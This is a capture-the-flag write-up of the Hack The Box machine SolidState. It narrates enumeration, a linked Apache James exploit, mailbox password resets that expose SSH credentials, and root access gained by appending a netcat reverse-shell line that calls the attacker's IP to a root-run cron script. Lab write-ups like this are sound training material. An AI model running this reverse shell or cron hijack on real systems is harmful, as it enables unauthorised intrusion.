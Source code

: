 # SolidState

Machine: [SolidState](https://app.hackthebox.com/machines/85)\
Difficulty: Medium\
Status: Retired



## Enumeration

What operating system is on this machine? Linux
What ports/services are on running on this machine?\ 
![Results!](screenshots/1.png)

What udp ports are open?\
![Results!](screenshots/2.png)

SMPT (25) - SMTP (Simple Mail Transfer Protocol) is the basic standard for sending email via the internet between mail servers. Applications like Apple Mail and Outlook use SMTP to send emails to mail servers, which subsequently relay them to other mail servers.\

POP3 (110) - Post Office Protocol (POP) is a type of computer networking and Internet standard protocol that extracts and retrieves email from a remote mail server for access by the host machine. POP is an application layer protocol in the OSI model that provides end users the ability to fetch and receive email.\

NNTP is an application-layer protocol used for transporting Usenet news articles between news servers. Client applications can also inquire, retrieve, and post articles.\


Given the ports/services that are open, I am guessing that this is some sort of mail server or it has something to do with a mail server.  


![Results!](screenshots/3.png)



I did see the web admin email being listed on the homepage. I am not sure if this will be of any importance, but I will note it down just in case.\
![Results!](screenshots/4.png)

Since smtp, pop3 and other services are open, I am going to see if there are any enumeration scripts within nmap that will help us.  To find the nmap scripts, just type this command 'ls -al /usr/share/nmap/scripts/ |grep -e "smtp" and it will output something like this if there are script available:\

![Results!](screenshots/5.png)

I did find a root user after running the below script. The other scripts did not return anything that I thought was important, so I will move on to enumerating pop3 and nntp.

![Results!](screenshots/6.png)


I ran the scripts that are available for pop3, and I did not get back any information of importance.
![Results!](screenshots/7.png)\
![Results!](screenshots/8.png)


Since we have a webserver running on port 80, lets use dirbuster to find any directories and files.
![Results!](screenshots/9.png)


In the dirbuster scan results, I did find a readme.txt file that you can see below. It looks like it might contain information that is important, but I am not sure yet.  It is using Creative Commons Attribution 3.0 Unported, so maybe this is vulnerable?

![Results!](screenshots/10.png)

## Exploitation

I went back through the version running with each of the services, and I did find this exploit: https://www.exploit-db.com/exploits/50347. I intially ran the exploit and it gave me a message saying that someone needed to login for it to work. At the time I did not have any users credentials, but in the exploit it does give the username/password for the James Apache Server. To log in we will use netcat. After logging in, we see that we can change the passwords of the users...this will allow us to login and view the users mail/inbox.

![Results!](screenshots/11.png)


![Results!](screenshots/12.png)


After browsing through each user's mailbox, we see an email that was sent to Mindy that contains ssh credentials which will allow us to login.
![Results!](screenshots/13.png)


### Flags
User:
![Results!](screenshots/14.png)

Root: 
For root access, I needed to escalate my priveleges to root. Initally I uploaded LinEnum and Linpeas to see if any misconfigurations or any vulnerabilites are found that would allow me to escalate my privileges to root, but neither LinEnum or Linpeas showed me any valuable information. I had to refer to a tutorial, and LinEnum is supposed to return information about world/global writable files.  The is a python script that is being run as part of a cron job...when it executes it will execute as root. Given that we have the permission to write to this file, we can append some code that will gives us a root shell the next time the cron job runs this script. I appended this line to the python script and setup a netcat listener, 'os.system(nc -e /bin/bash 10.10.14.4 5555)'. After a couple of minutes I had a new shell as root.




